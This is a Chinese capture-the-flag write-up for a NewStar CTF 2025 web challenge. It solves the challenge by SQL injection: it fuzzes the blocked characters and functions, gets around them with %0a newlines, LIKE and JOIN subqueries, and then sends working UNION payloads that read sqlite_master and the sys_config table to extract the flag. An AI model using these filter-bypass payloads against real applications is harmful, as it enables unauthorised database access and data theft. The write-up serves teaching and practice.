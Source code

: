 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2025"
---
```


# 小E的管理系统

SQL 注入（SQL Injection）是一种常见的网络攻击手段，攻击者通过在输入字段或请求中注入恶意的 SQL 语句，操控数据库执行意图之外的操作。

此处由于使用了 SQL 语句拼接，导致了可以被 SQL 注入。

## fuzz

由于题目没有给源码，不知道具体过滤方式，需要 fuzz 一下

发现过滤了 `['#', '--', ';',' ',"'",'"','=','/']`

以及部分函数 `/(char|hex|ascii|substr|substring|mid)\s*\(/i`

## union

对空格的过滤可以用换行符绕过，URL 编码就是 `%0a`。等号可以用 LIKE 绕过

虽然过滤了 `#` 和 `--`，但是测试发现不需要注释掉末尾语句，猜测拼接在 sql 语句最后

过滤了 `'` 和 `"`，但是测试可以发现闭合语句不需要引号

过滤了 `;` 所以不能堆叠注入

最终考虑使用 UNION 联合注入（通过 UNION 将攻击者构造的查询结果与合法查询结果合并，从而获取敏感数据）

## 行数

UNION 联合注入要求 union 的语句输出的行数与原本语句输出的行数一致，正常情况需要用逗号测试出行数

```sql
UNION SELECT 1,2
```

但是这里过滤了逗号，需要用 JOIN 来绕过

```sql
UNION SELECT * FROM (SELECT 1) JOIN (SELECT 2)
```

将空格替换为 `%0a`，逐一测试，当正常返回代表行数正确，最终测试出行数为 5 行

```sql
1%0aUNION%0aSELECT*FROM%0a(SELECT%0a1)JOIN(SELECT%0a2)JOIN(SELECT%0a3)JOIN(SELECT%0a4)JOIN(SELECT%0a5)
--  1 UNION SELECT * FROM (SELECT 1)JOIN(SELECT 2)JOIN(SELECT 3)JOIN(SELECT 4)JOIN(SELECT 5)
```

## 表

测试出行数后，需要挑选一行替换为我们需要查询的语句

我们需要先查询有哪些表。正常 SQL 查看有哪些表可以用

```sql
SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema LIKE database()
```

编码后发送

```sql
1%0AUNION%0ASELECT*FROM%0A(SELECT%0A1)JOIN(SELECT%0AGROUP_CONCAT(table_name)%0AFROM%0Ainformation_schema.tables%0AWHERE%0Atable_schema%0ALIKE%0Adatabase())JOIN(SELECT%0A3)JOIN(SELECT%0A4)JOIN(SELECT%0A5)
```

但是返回 `{"error":"database error: Unable to prepare statement: 1, no such table: information_schema.tables"}`，可以推测是 sqlite 数据库。查询 SQLite 的系统表 `sqlite_master` 即可

```sql
1%0aUNION%0aSELECT*FROM%0a(SELECT%0a1)JOIN(SELECT%0aGROUP_CONCAT(name)%0aFROM%0asqlite_master)JOIN(SELECT%0a3)JOIN(SELECT%0a4)JOIN(SELECT%0a5)
```

成功返回

```json
{
  "id": 1,
  "cpu": "node_status,sys_config,sqlite_autoindex_sys_config_1,sqlite_sequence",
  "ram": 3,
  "status": 4,
  "lastChecked": 5
}
```

## 表结构

查看表结构

```sql
1%0aUNION%0aSELECT*FROM%0a(SELECT%0a1)JOIN(SELECT%0aGROUP_CONCAT(sql)%0aFROM%0asqlite_master)JOIN(SELECT%0a3)JOIN(SELECT%0a4)JOIN(SELECT%0a5)
```

返回

```json
{
  "id": 1,
  "cpu": "CREATE TABLE node_status (\n    node_id INTEGER PRIMARY KEY,\n    cpu_usage VARCHAR(10),\n    ram_usage VARCHAR(10),\n    status VARCHAR(15) CHECK(status IN ('Online','Offline','Maintenance')),\n    last_checked DATETIME DEFAULT CURRENT_TIMESTAMP\n),CREATE TABLE sys_config (\n    id INTEGER PRIMARY KEY AUTOINCREMENT,\n    config_key VARCHAR(50) UNIQUE,\n    config_value TEXT\n),CREATE TABLE sqlite_sequence(name,seq)",
  "ram": 3,
  "status": 4,
  "lastChecked": 5
}
```

可以看到 sys_config 中有 config_key 以及 config_value

## flag

查看 config_value

```sql
1%0aUNION%0aSELECT*FROM%0a(SELECT%0a1)JOIN(SELECT%0aGROUP_CONCAT(config_value)%0aFROM%0asys_config)JOIN(SELECT%0a3)JOIN(SELECT%0a4)JOIN(SELECT%0a5)
```

即可获取 flag
